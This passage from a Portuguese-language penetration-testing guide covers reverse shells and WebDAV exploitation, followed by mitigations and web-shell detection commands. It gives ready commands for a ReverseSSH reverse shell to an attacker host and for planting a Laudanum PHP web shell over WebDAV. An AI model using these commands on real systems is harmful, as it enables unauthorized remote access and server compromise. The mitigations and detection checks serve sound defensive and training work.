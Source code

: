 ##### 5. ReverseSSH
```bash
# No servidor atacante
reversessh -l 192.168.100.10 -p 4444
# No alvo (após upload do cliente)
./reversessh -c 192.168.100.10 -p 4444
```
> Alternativa para estabelecer conexões reversas via SSH.

##### 6. Laudanum
```bash
# Copia o shell do Laudanum
cp /usr/share/webshells/laudanum/php/shell.php .
# Modifica as credenciais padrão
sed -i 's/default_password/sua_senha/g' shell.php
# Upload via WebDAV
cadaver http://192.168.100.11/dav/
dav:/dav/> put shell.php
```
> Coleção de shells web injetáveis com recursos avançados.

#### Mitigações contra Exploração WebDAV

1. **Configuração do Servidor:**
   - Desabilitar WebDAV se não for necessário
   - Restringir métodos HTTP permitidos
   - Implementar autenticação forte

2. **Filtros de Upload:**
   - Bloquear extensões perigosas (.php, .asp, etc)
   - Validar conteúdo dos arquivos
   - Implementar limites de tamanho

3. **Monitoramento:**
   - Logging de acessos WebDAV
   - Alertas para uploads suspeitos
   - Monitoramento de conexões reversas

4. **Hardening:**
   - Manter software atualizado
   - Usar WAF (Web Application Firewall)
   - Implementar políticas de segurança rigorosas

#### Detecção de Shells Web

```bash
# Procura por shells PHP conhecidos
grep -r "shell_exec\|system\|passthru\|exec" /var/www/html/

# Monitora conexões suspeitas
netstat -antp | grep ESTABLISHED

# Verifica uploads recentes
find /var/www/html/ -type f -mtime -1
```

---


